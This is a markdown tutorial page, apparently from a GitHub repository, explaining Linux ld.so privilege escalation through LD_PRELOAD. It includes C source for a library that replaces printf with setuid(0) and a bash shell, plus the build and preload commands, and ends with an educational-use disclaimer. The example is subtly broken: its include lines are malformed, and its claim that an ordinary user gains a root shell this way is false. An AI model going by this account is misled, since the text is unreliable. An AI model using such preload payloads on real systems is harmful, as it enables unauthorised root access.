 # ld.so privesc exploit example


# 👉 Overview

---

### 👀 What ?

Linux ld.so privilege escalation exploit is a security vulnerability that manipulates the dynamic linker/loader ld.so of the Linux operating system to escalate privileges from a normal user to root user.


### 🧐 Why ?

Understanding this exploit is crucial because it sheds light on how certain system vulnerabilities can be exploited to gain unauthorized access or privileges. This knowledge is essential for system administrators, security professionals and ethical hackers to secure their systems.


### ⛏️ How ?

The exploit involves tricking the linker/loader ld.so into executing a malicious library or a script. This can be achieved by setting the LD_PRELOAD environment variable to point to the malicious library or script. Once the system runs a binary that requires the ld.so, it will also execute the malicious script, potentially with escalated privileges.


### ⏳ When ?

The use of Linux ld.so privilege escalation exploit began to be noticed in the early 2000s. However, its popularity among hackers has grown over the years due to the ubiquity of Linux systems and the relative simplicity of the exploit.


# ⚙️ Technical Explanations

---

The Linux [ld.so](http://ld.so/) privilege escalation exploit involves manipulating the [ld.so](http://ld.so/) dynamic linker/loader in a Linux system.

The [ld.so](http://ld.so/) is a critical part of a Linux system as it loads the shared libraries required by a program into the program's memory space during runtime. These shared libraries typically contain common functions and routines that multiple programs may use, eliminating the need for these to be included in every individual program.

The exploit occurs when a malicious user creates a malevolent shared library and uses the LD_PRELOAD environment variable to instruct the linker/loader to load this library before any others when a program is run. It's important to note that the LD_PRELOAD variable is a feature, not a bug, of the Linux operating system - its legitimate purpose is to allow users to test new versions of libraries or to debug library-related issues.

The malevolent library can be constructed to contain functions that are also found in other, legitimate libraries used by the program. Since the [ld.so](http://ld.so/) loads the libraries in the order specified by the LD_PRELOAD variable, the functions in the malevolent library will be used in place of the legitimate ones.

The exploit's danger lies in its potential for arbitrary code execution - because the malicious functions are executed in the context of the user running the program, they inherit the user's permissions. Therefore, if a program run by the root user (who has all administrative permissions) is targeted, the exploit could lead to a full system compromise.

This exploit has been known since the early 2000s and continues to be relevant due to the widespread use of Linux systems and the simplicity of the exploit. Any Linux system user, especially system administrators and security professionals, should be aware of this exploit to protect their systems effectively.

**Example of a Linux [ld.so](http://ld.so/) Privilege Escalation Exploit:**

Let's say we have a simple C program called `targetProgram.c` that uses the `printf` function from the `libc.so` library.

```
#include <stdio.h

int main() {
    printf("Hello, world!\\n");
    return 0;
}

```

A malicious user might create a library, say `exploitLib.c`, that contains their own version of the `printf` function:

```
#include <stdio.h
#include <unistd.h

int printf(const char *format, ...) {
    setuid(0); // Elevate to root privileges
    system("/bin/bash"); // Run a bash shell
    return 0;
}

```

The malicious user then compiles this library into a shared object file:

```bash
gcc -shared -o exploitLib.so exploitLib.c

```

The malicious user can then set the LD_PRELOAD environment variable to point to the malicious library:

```bash
export LD_PRELOAD=/path/to/exploitLib.so

```

Now, when the target program is run, the malicious `printf` function will be executed instead of the legitimate one:

```bash
./targetProgram

```

This will open a bash shell with root privileges, enabling the malicious user to perform any actions they want on the system.

**Note:** This example is for educational purposes only. Attempting such an exploit on a system without permission is illegal.
